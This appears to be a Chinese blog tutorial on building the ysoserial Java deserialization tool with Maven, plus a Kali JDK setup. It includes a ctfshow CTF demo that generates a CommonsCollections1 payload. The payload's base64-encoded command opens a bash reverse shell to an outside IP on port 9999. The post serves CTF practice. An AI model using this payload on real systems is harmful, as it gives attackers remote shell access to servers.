





+++
title = "ysoserial配置"
slug = "ysoserial-configuration"
description = ""
date = "2024-08-19T21:06:28"
lastmod = "2024-08-19T21:06:28"
image = ""
license = ""
categories = ["talk"]
tags = ["工具", "Java"]
+++

# 安装

# 配置

直接将整个项目拖进来就会显示配置为`mov`项目



如果没有显示的话可以自己右键`pom.xml`进行`mov`项目解析

再者进行项目的忽略


我这里是已经忽略了然后打开，选择进行`clean`

```
"C:\Program Files\Java\jdk1.8.0_201\bin\java.exe" -Dmaven.multiModuleProjectDirectory=C:\Users\baozhongqi\Desktop\ysoserial-master\ysoserial-master -Djansi.passthrough=true "-Dmaven.home=D:\IntelliJ IDEA 2024.2.0.1\plugins\maven\lib\maven3" "-Dclassworlds.conf=D:\IntelliJ IDEA 2024.2.0.1\plugins\maven\lib\maven3\bin\m2.conf" "-Dmaven.ext.class.path=D:\IntelliJ IDEA 2024.2.0.1\plugins\maven\lib\maven-event-listener.jar" "-javaagent:D:\IntelliJ IDEA 2024.2.0.1\lib\idea_rt.jar=63881:D:\IntelliJ IDEA 2024.2.0.1\bin" -Dfile.encoding=UTF-8 -classpath "D:\IntelliJ IDEA 2024.2.0.1\plugins\maven\lib\maven3\boot\plexus-classworlds-2.8.0.jar;D:\IntelliJ IDEA 2024.2.0.1\plugins\maven\lib\maven3\boot\plexus-classworlds.license" org.codehaus.classworlds.Launcher -Didea.version=2024.2.0.1 clean
[INFO] Scanning for projects...
[INFO] 
[INFO] ------------------------< ysoserial:ysoserial >-------------------------
[INFO] Building ysoserial 0.0.6-SNAPSHOT
[INFO]   from pom.xml
[INFO] --------------------------------[ jar ]---------------------------------
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/plugins/maven-clean-plugin/3.2.0/maven-clean-plugin-3.2.0.pom
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/maven/plugins/maven-clean-plugin/3.2.0/maven-clean-plugin-3.2.0.pom (5.3 kB at 2.8 kB/s)
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/plugins/maven-plugins/35/maven-plugins-35.pom
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/maven/plugins/maven-plugins/35/maven-plugins-35.pom (9.9 kB at 7.3 kB/s)
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/maven-parent/35/maven-parent-35.pom
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/maven/maven-parent/35/maven-parent-35.pom (45 kB at 15 kB/s)
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/apache/25/apache-25.pom
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/apache/25/apache-25.pom (21 kB at 13 kB/s)
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/plugins/maven-clean-plugin/3.2.0/maven-clean-plugin-3.2.0.jar
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/maven/plugins/maven-clean-plugin/3.2.0/maven-clean-plugin-3.2.0.jar (36 kB at 19 kB/s)
[INFO] 
[INFO] --- clean:3.2.0:clean (default-clean) @ ysoserial ---
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/shared/maven-shared-utils/3.3.4/maven-shared-utils-3.3.4.pom
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/maven/shared/maven-shared-utils/3.3.4/maven-shared-utils-3.3.4.pom (5.8 kB at 9.3 kB/s)
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/shared/maven-shared-components/34/maven-shared-components-34.pom
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/maven/shared/maven-shared-components/34/maven-shared-components-34.pom (5.1 kB at 3.4 kB/s)
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/maven-parent/34/maven-parent-34.pom
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/maven/maven-parent/34/maven-parent-34.pom (43 kB at 13 kB/s)
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/shared/maven-shared-utils/3.3.4/maven-shared-utils-3.3.4.jar
Downloaded from central: https://repo.maven.apache.org/maven2/org/apache/maven/shared/maven-shared-utils/3.3.4/maven-shared-utils-3.3.4.jar (153 kB at 22 kB/s)
Downloading from central: https://repo.maven.apache.org/maven2/commons-io/commons-io/2.6/commons-io-2.6.jar
Downloaded from central: https://repo.maven.apache.org/maven2/commons-io/commons-io/2.6/commons-io-2.6.jar (215 kB at 22 kB/s)
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  33.033 s
[INFO] Finished at: 2024-08-19T21:12:09+08:00
[INFO] ------------------------------------------------------------------------

进程已结束，退出代码为 0
```

终端这样子就是成功`clean`了

然后切换"跳过测试"模式

然后安装



```
[INFO] Installing C:\Users\baozhongqi\Desktop\ysoserial-master\ysoserial-master\target\ysoserial-0.0.6-SNAPSHOT-all.jar to C:\Users\baozhongqi\.m2\repository\ysoserial\ysoserial\0.0.6-SNAPSHOT\ysoserial-0.0.6-SNAPSHOT.jar
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  01:10 min
[INFO] Finished at: 2024-08-19T21:57:10+08:00
[INFO] ------------------------------------------------------------------------
```

在终端看到成功即可，一次没成功多来几次我就是这样的

然后查看文件夹



也是成功了，这里尝试能否正常运行(改个名字不然运行太长了)

当然我是没有改的毕竟`CV`就可以了

查看能否使用

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
```

# demo

这里以`ctfshow`的`web847java`反序列化为例子

我们进入环境

```
ctfshow会对你post提交的ctfshow参数进行base64解码
然后进行反序列化
构造出对当前题目地址的dns查询即可获得flag
```

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "bash -c {echo,base64命令}|{base64,-d}|{bash,-i}"|base64 
这里是反弹shell直接

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8yNy4yNS4xNTEuNDgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"|base64 
```

然后传参打通

但是`Windows`没有`base64 `

# kali 配置jdk

这里我们再给`kali`配置一个`jdk`

先到官网下载一个`jdk8`

选择`Linux`的包就可以了

```
tar -xzvf jdk-8u421-linux-x64.tar.gz

mv jdk1.8.0_421 /opt

cd /opt/jdk1.8.0_421
```

配置环境变量

```
vim /etc/profile

export JAVA_HOME=/opt/jdk1.8.0_421

( export JAVA_HOME=/opt/jdk版本)

export CLASSPATH=.:${JAVA_HOME}/lib

export PATH=${JAVA_HOME}/bin:$PATH
```

添加这三行到文件中



```
source /etc/profile
```

安装注册`jdk`

```
update-alternatives --install /usr/bin/java java /opt/jdk1.8.0_421/bin/java 1

update-alternatives --install /usr/bin/javac javac /opt/jdk1.8.0_421/bin/javac 1

update-alternatives --set java /opt/jdk1.8.0_421/bin/java

update-alternatives --set javac /opt/jdk1.8.0_421/bin/javac
```

最后检查一下

```
java -version

javac -version
```



那这个时候再把`jar`包放进去，看看能不能执行命令

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8yNy4yNS4xNTEuNDgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"|base64 
```

但是发现编码会多空格符号，去掉即可，但是这个问题确实是不知道怎么触发的

